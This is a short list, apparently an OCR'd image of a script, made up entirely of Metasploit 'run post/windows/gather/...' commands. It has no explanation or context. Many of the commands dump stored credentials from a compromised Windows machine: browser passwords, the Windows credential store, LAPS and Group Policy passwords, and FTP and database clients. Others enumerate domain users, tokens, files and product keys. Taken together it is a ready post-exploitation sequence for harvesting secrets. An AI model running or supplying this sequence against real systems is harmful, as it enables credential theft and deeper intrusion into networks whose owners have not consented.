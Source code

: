 run post/windows/gather/enum_chrome

run post/windows/gather/credentials/dyndns

run post/windows/gather/enum_computers

run post/windows/gather/credentials/enum_cred_store

run post/windows/gather/enum_db

run post/windows/gather/credentials/enum_laps

run post/windows/gather/enum_devices

run post/windows/gather/credentials/enum_picasa_pwds

run post/windows/gather/enum_dirperms

run post/windows/gather/credentials/epo_sql

run post/windows/gather/enum_domain

run post/windows/gather/credentials/filezilla_server

run post/windows/gather/enum_domain_group_users

run post/windows/gather/credentials/flashfxp

run post/windows/gather/enum_domain_tokens

run post/windows/gather/credentials/flock

run post/windows/gather/enum_domain_users

run post/windows/gather/credentials/ftpnavigator

run post/windows/gather/enum_domains

run post/windows/gather/credentials/ftpx

run post/windows/gather/enum_emet

run post/windows/gather/credentials/gadugadu

run post/windows/gather/enum_files

run post/windows/gather/credentials/gpp

run post/windows/gather/enum_hostfile

run post/windows/gather/credentials/heidisql

run post/windows/gather/enum_hyperv_vms

run post/windows/gather/credentials/icq

run post/windows/gather/enum_ie

run post/windows/gather/credentials/idm

run post/windows/gather/enum_logged_on_users

run post/windows/gather/credentials/ie

run post/windows/gather/enum_ms_product_keys
